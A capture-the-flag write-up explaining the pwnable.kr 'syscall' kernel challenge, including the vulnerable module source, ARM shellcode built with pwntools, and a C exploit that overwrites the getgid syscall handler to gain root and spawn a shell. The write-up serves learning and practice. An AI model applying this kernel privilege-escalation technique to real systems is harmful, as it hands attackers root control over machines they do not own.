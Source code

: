 This is the first kernel exploitation challenge on pwnable.kr and it might seem scary, especially if you
have never done kernel exploitation before. So let's clarify some concepts which will help us
to better cognize the challenge:

### Process address space
In Linux each process has it's own virtual address space which is divided into two parts -
user space and kernel space (typically located at the lower and upper end of the address space respectively).
To prevent programs from tinkering with the kernel's memory, kernel space
can only be accessed when in kernel mode. To enter that mode processes usually invoke a system call
(like read, write etc). It's the kernel job then to safely handle the processes' requests, assuring
they are not trying to do anything outside their permissions.

### Kernel modules
The Linux kernel is monolithic but also modular, meaning you can add functionality to it by compiling it
with additional modules. The source code for this challenge defines such a module via the
`module_init` and `module_exit` macros:

```c
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE		0x8000e348		// manually configure this address!!
#define NR_SYS_UNUSED		223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );
```

As you can see this module's initialization function (`initmodule`)
is modifying the kernel's syscall table so that `sys_upper` can be invoked as a syscall with number 223.
The `sys_upper` function itself simply copies a string from `in` to `out`,
replacing any lower case characters with their upper case equivalents.

Equiped with the notion of user and kernel space we spot a potential vulnerability:
Since `sys_upper` is a syscall, it gets executed with kernel privilages,
meaning that we can copy strings (specifically malicious ones!) to any address including those in kernel space.

So let's write a shellcode that escalates out privilages and inject it somewehere in the kernel.
The easiest way to achieve this is by combining the following kernel functions:

```c
commit_creds(prepare_kernel_cred(NULL))
```
Explanation:

- `prepare_kernel_cred(NULL)` - when invoked with `NULL` this function returns a pointer
  to a credentials struct that encodes root privilages.
- `commit_creds(struct cred*)` - applies/"commits" credentials.

You can find the symbols of these functions by reading from `/proc/kallsyms` on the pwnable server.

### ARM calling convention:
The pwnable server is using `32-bit arm` architecture.
For a somewhat-complete overview of `arm`'s calling convention you can read [here](https://en.wikipedia.org/wiki/Calling_convention#ARM_(A32)).
What's most important to us is how arguments are passed to funcitons, as it's different from `x86`:
`r0 to r3 hold argument values passed to a subroutine and results returned from a subroutine.`
With the arm semantics in mind I constructed the following shellcode (note, you might have to install an `arm` toolchain for the assembling):
```python
from pwn import *

context.arch = 'arm'

shellcode = asm('''
push {r3, fp, lr}
add  fp, sp, $4
ldr  r1, =0x80064c8c
blx  r1
ldr  r1, =0x8003f924
blx  r1
ldr  r1, =0x8003f55c
add  r1, $0x10
blx  r1
pop  {r3, fp, pc}
''')

print(''.join('\\x{:02x}'.format(byte) for byte in shellcode))
```
I couldn't figure out how to embed commetns into the assembly string so here are some clarifications:

- `0x80064c8c` - the address of `bool is_module_address(unsigned long addr)`, this is a random kernel function which
  fortunatelly happened to return 0. This call is necessary for zeroing out `r0` which can't be done by
  any of the conventional `xor r0, r1, r1`, `mov r0, #0`, etc. instructions since all of them contain
  a `\x00` (string termination) byte in their assembled versions.
- `0x8003f924` - the address of `prepare_kernel_cred()`, to invoke it with `NULL` `r0` has to be 0.
- `0x8003f56c` - the address of `commit_creds(struct cred *)`, We call this function just after `prepare_kernel_cred` so that
  the return value of the latter (that is the root privilage credential struct) is used as the function argument.
- Pushing/Poping the `r3` register and spliting the `commit_creds`' address is necessary
  for not having lower case characters and the `\x00` byte as parts of the shellcode.

Now, back to the exploit, I inserted the script output into the `shellcode` variable in the C snippet bellow.
As you can see it does not contain any `\x00` bytes or bytes lying in the `[\x61, \x7a]` range which means
the shellcode would be copied identically. I used the `getgid` syscall for the shellcode destination:
```c
#include <stdint.h>
#include <sys/syscall.h>
#include <unistd.h>
#include <stdlib.h>

char shellcode[] = "\x08\x48\x2d\xe9\x04\xb0\x8d\xe2\x18\x10\x9f\xe5\x31\xff\x2f\xe1\x14\x10\x9f\xe5\x31\xff\x2f\xe1\x10\x10\x9f\xe5\x10\x10\x81\xe2\x31\xff\x2f\xe1\x08\x88\xbd\xe8\x8c\x4c\x06\x80\x24\xf9\x03\x80\x5c\xf5\x03\x80";

int main() {
	uintptr_t sys_getgid = 0x8002f958;
	syscall(223, shellcode, sys_getgid);
	syscall(SYS_getgid);
	system("/bin/sh");
	return 0;
}
```

After gaining root privilages we can just get shell and go on about our day.

Here is a showcase of the final exploit on the pwnable server, don't worry about the `can't access tty` message,
`/bin/sh` still gets executed successfully:

```
/tmp $ gcc exploit.c
/tmp $ ./a.out
/bin/sh: can't access tty; job control turned off
/tmp $ cat /root/flag
...(flag)...
```
